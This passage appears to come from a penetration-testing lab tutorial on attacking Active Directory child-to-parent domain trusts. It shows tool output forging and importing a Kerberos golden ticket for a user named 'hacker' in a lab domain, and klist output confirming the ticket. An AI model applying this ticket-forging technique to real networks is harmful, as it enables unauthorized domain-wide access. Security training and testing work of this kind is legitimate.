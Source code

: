```powershell-session
[*] Encrypting EncTicketPart
[*] Generating Ticket
[*] Generated KERB-CRED
[*] Forged a TGT for 'hacker@LOGISTICS.INLANEFREIGHT.LOCAL'

[*] AuthTime       : 3/29/2022 10:06:41 AM
[*] StartTime      : 3/29/2022 10:06:41 AM
[*] EndTime        : 3/29/2022 8:06:41 PM
[*] RenewTill      : 4/5/2022 10:06:41 AM

[*] base64(ticket.kirbi):
      doIF0zCCBc+gAwIBBaEDAgEWooIEnDCCBJhhggSUMIIEkKADAgEFoR8bHUxPR0lTVElDUy5JTkxBTkVG
      UkVJR0hULkxPQ0FMojIwMKADAgECoSkwJxsGa3JidGd0Gx1MT0dJU1RJQ1MuSU5MQU5FRlJFSUdIVC5M
      T0NBTKOCBDIwggQuoAMCARehAwIBA6KCBCAEggQc0u5onpWKAP0Hw0KJuEOAFp8OgfBXlkwH3sXu5BhH
      T3zO/Ykw2Hkq2wsoODrBj0VfvxDNNpvysToaQdjHIqIqVQ9kXfNHM7bsQezS7L1KSx++2iX94uRrwa/S
      VfgHhAuxKPlIi2phwjkxYETluKl26AUo2+WwxDXmXwGJ6LLWN1W4YGScgXAX+Kgs9xrAqJMabsAQqDfy
      k7+0EH9SbmdQYqvAPrBqYEnt0mIPM9cakei5ZS1qfUDWjUN4mxsqINm7qNQcZHWN8kFSfAbqyD/OZIMc
      g78hZ8IYL+Y4LPEpiQzM8JsXqUdQtiJXM3Eig6RulSxCo9rc5YUWTaHx/i3PfWqP+dNREtldE2sgIUQm
      9f3cO1aOCt517Mmo7lICBFXUTQJvfGFtYdc01fWLoN45AtdpJro81GwihIFMcp/vmPBlqQGxAtRKzgzY
      acuk8YYogiP6815+x4vSZEL2JOJyLXSW0OPhguYSqAIEQshOkBm2p2jahQWYvCPPDd/EFM7S3NdMnJOz
      X3P7ObzVTAPQ/o9lSaXlopQH6L46z6PTcC/4GwaRbqVnm1RU0O3VpVr5bgaR+Nas5VYGBYIHOw3Qx5YT
      3dtLvCxNa3cEgllr9N0BjCl1iQGWyFo72JYI9JLV0VAjnyRxFqHztiSctDExnwqWiyDaGET31PRdEz+H
      WlAi4Y56GaDPrSZFS1RHofKqehMQD6gNrIxWPHdS9aiMAnhQth8GKbLqimcVrCUG+eghE+CN999gHNMG
      Be1Vnz8Oc3DIM9FNLFVZiqJrAvsq2paakZnjf5HXOZ6EdqWkwiWpbGXv4qyuZ8jnUyHxavOOPDAHdVeo
      /RIfLx12GlLzN5y7132Rj4iZlkVgAyB6+PIpjuDLDSq6UJnHRkYlJ/3l5j0KxgjdZbwoFbC7p76IPC3B
      aY97mXatvMfrrc/Aw5JaIFSaOYQ8M/frCG738e90IK/2eTFZD9/kKXDgmwMowBEmT3IWj9lgOixNcNV/
      OPbuqR9QiT4psvzLGmd0jxu4JSm8Usw5iBiIuW/pwcHKFgL1hCBEtUkaWH24fuJuAIdei0r9DolImqC3
      sERVQ5VSc7u4oaAIyv7Acq+UrPMwnrkDrB6C7WBXiuoBAzPQULPTWih6LyAwenrpd0sOEOiPvh8NlvIH
      eOhKwWOY6GVpVWEShRLDl9/XLxdnRfnNZgn2SvHOAJfYbRgRHMWAfzA+2+xps6WS/NNf1vZtUV/KRLlW
      sL5v91jmzGiZQcENkLeozZ7kIsY/zadFqVnrnQqsd97qcLYktZ4yOYpxH43JYS2e+cXZ+NXLKxex37HQ
      F5aNP7EITdjQds0lbyb9K/iUY27iyw7dRVLz3y5Dic4S4+cvJBSz6Y1zJHpLkDfYVQbBUCfUps8ImJij
      Hf+jggEhMIIBHaADAgEAooIBFASCARB9ggEMMIIBCKCCAQQwggEAMIH9oBswGaADAgEXoRIEEBrCyB2T
      JTKolmppTTXOXQShHxsdTE9HSVNUSUNTLklOTEFORUZSRUlHSFQuTE9DQUyiEzARoAMCAQGhCjAIGwZo
      YWNrZXKjBwMFAEDgAACkERgPMjAyMjAzMjkxNzA2NDFapREYDzIwMjIwMzI5MTcwNjQxWqYRGA8yMDIy
      MDMzMDAzMDY0MVqnERgPMjAyMjA0MDUxNzA2NDFaqB8bHUxPR0lTVElDUy5JTkxBTkVGUkVJR0hULkxP
      Q0FMqTIwMKADAgECoSkwJxsGa3JidGd0Gx1MT0dJU1RJQ1MuSU5MQU5FRlJFSUdIVC5MT0NBTA==

[+] Ticket successfully imported!
```

Once again, we can check that the ticket is in memory using the `klist` command.

#### Confirming the Ticket is in Memory Using klist

  Attacking Domain Trusts - Child -> Parent Trusts - from Windows

```powershell-session
PS C:\htb> klist

Current LogonId is 0:0xf6495

Cached Tickets: (1)

#0>	Client: hacker @ LOGISTICS.INLANEFREIGHT.LOCAL
	Server: krbtgt/LOGISTICS.INLANEFREIGHT.LOCAL @ LOGISTICS.INLANEFREIGHT.LOCAL
	KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
	Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent 
	Start Time: 3/29/2022 10:06:41 (local)
	End Time:   3/29/2022 20:06:41 (local)
	Renew Time: 4/5/2022 10:06:41 (local)
	Session Key Type: RSADSI RC4-HMAC(NT)
	Cache Flags: 0x1 -> PRIMARY 
	Kdc Called: 
```
